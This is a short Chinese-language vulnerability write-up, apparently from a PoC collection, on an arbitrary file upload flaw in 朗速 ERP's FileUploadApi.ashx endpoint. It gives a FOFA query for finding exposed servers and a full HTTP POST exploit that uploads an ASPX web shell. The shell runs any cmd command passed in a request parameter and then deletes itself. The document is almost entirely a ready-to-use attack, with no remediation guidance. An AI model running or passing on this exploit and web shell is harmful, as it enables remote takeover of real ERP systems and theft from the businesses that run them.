 # 朗速ERP系统FileUploadApi.ashx存在文件上传漏洞



## fofa
```javascript
body="/Resource/Scripts/Yw/Yw_Bootstrap.js"
```

## poc
```javascript
POST /Api/FileUploadApi.ashx?method=DoWebUpload HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/107.0.0.0 Safari/537.36
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryFfJZ4PlAZBixjELj
Accept: */*
Connection: close

------WebKitFormBoundaryFfJZ4PlAZBixjELj
Content-Disposition: form-data; name="file"; filename="1.aspx"
Content-Type: image/jpeg

<%@ Page Language="Jscript" validateRequest="false" %>
<%
var c=new System.Diagnostics.ProcessStartInfo("cmd");
var e=new System.Diagnostics.Process();
var out:System.IO.StreamReader,EI:System.IO.StreamReader;
c.UseShellExecute=false;
c.RedirectStandardOutput=true;
c.RedirectStandardError=true;
e.StartInfo=c;
c.Arguments="/c " + Request.Item["cmd"];
e.Start();
out=e.StandardOutput;
EI=e.StandardError;
e.Close();
Response.Write(out.ReadToEnd() + EI.ReadToEnd());
System.IO.File.Delete(Request.PhysicalPath);
Response.End();%>
------WebKitFormBoundaryFfJZ4PlAZBixjELj--
```

![image-20241227222402497](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202412272224571.png)